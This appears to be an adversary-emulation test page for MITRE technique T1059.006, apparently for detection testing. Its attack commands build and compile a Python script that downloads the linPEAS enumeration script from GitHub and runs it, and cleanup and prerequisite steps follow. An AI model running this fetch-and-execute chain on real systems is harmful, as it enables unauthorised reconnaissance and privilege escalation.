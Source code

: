 
#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| python_script_name | Name of Python script name | Path | T1059.006.py|
| script_url | URL hosting external malicious payload | String | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Shell script file name downloaded from the script_url | String | T1059.006-payload|
| executor | Payload or script interpreter / executor | String | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | String | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|
| python_binary_name | Name of Python file to be compiled | Path | T1059.006.pyc|


#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python -c 'import py_compile; py_compile.compile("#{python_script_name}", "#{python_binary_name}")'
$which_python #{python_binary_name}
```

#### Cleanup Commands:
```sh
rm #{python_binary_name} #{python_script_name} #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Requires Python
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```
